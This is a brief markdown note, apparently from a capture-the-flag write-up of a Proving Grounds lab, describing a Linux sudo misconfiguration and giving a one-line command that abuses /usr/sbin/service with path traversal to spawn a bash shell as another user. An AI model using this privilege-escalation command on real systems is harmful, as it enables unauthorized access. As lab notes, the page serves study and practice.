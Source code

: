 ```yaml
---
layout: default
title: Service
parent: Sudo
nav_order: 12
---
```


# Service

---

## Sudo -l

We can run _/usr/sbin/service_ as user _steven_

![sudo](../../../../assets/images/ctfs/proving_grounds/sosimple/sudo.png)

SU to Steven

```bash
sudo -u steven /usr/sbin/service ../../../../bin/bash
```

![steven](../../../../assets/images/ctfs/proving_grounds/sosimple/steven.png)
